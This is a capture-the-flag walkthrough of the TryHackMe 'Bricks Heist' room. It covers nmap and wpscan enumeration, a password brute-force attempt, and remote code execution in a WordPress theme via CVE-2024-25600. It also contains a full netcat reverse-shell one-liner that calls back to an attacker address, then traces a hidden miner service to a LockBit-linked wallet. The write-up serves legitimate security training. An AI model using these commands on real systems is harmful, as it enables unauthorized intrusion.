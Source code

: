 # [Machine](https://tryhackme.com/room/tryhack3mbricksheist)

- # ENUM
	- ### nmap (`-A -p- -T4 bricks`)
		```nmap
		PORT      STATE    SERVICE  VERSION
		22/tcp    open     ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
		| ssh-hostkey: 
		|   3072 af:57:68:05:6a:12:77:30:9a:87:3e:1b:70:17:52:5e (RSA)
		|   256 8e:99:42:cc:49:5e:a6:24:01:49:c3:39:2b:61:12:6d (ECDSA)
		|_  256 36:82:26:21:ac:ae:01:99:2e:85:c7:64:0f:13:bf:bd (ED25519)
		80/tcp    open     http     Python http.server 3.5 - 3.10
		|_http-title: Error response
		|_http-server-header: WebSockify Python/3.8.10
		443/tcp   open     ssl/http Apache httpd
		| http-robots.txt: 1 disallowed entry 
		|_/wp-admin/
		|_http-server-header: Apache
		| tls-alpn: 
		|   h2
		|_  http/1.1
		|_ssl-date: TLS randomness does not represent time
		|_http-title: Brick by Brick
		|_http-generator: WordPress 6.5
		| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=US
		| Not valid before: 2024-04-02T11:59:14
		|_Not valid after:  2025-04-02T11:59:14
		2139/tcp  filtered ias-auth
		3306/tcp  open     mysql    MySQL (unauthorized)
		43424/tcp filtered unknown
		Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
		```

- # EXPLOITATION
	- WordPress website again! Let's enumerate more with `wpscan` (`wpscan --url https://bricks.thm/ --disable-tls-checks`)
		- Found a user:  `administrator`
			- Tried bruteforce, but nothing (`wpscan --url https://bricks.thm/ --passwords /usr/share/wordlists/rockyou.txt --disable-tls-checks`)
	- The theme (bricks) is vulnerable to `CVE-2024-25600` ([remote code execution](https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT)). Let's run the script and get a shell!
		- Let's open another remote shell: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.212 8888 >/tmp/f`
		- `python -c "import pty; pty.spawn('/bin/bash')"`

- # CHECK FOR FLAGS
	- There's a suspicious process: "`ubuntu.service`" (`systemctl | grep running`)
		- `systemctl cat ubuntu.service`
		- `ExecStart=/lib/NetworkManager/nm-inet-dialog`
	- Log file: `/lib/NetworkManager/inet.conf`
	- `cat inet.conf | head`
		- `ID: 5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d` ---- ([Cyberchef](https://gchq.github.io/CyberChef/)) ---> `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`
		- Let's search on the blockchain that address and his transactions
			- It belongs to the threat group "LockBit"!


- # FLAGS
	- `/data/www/default/650c844110baced87e1606453b93f22a.txt` -> `THM{fl46_650c844110baced87e1606453b93f22a}`
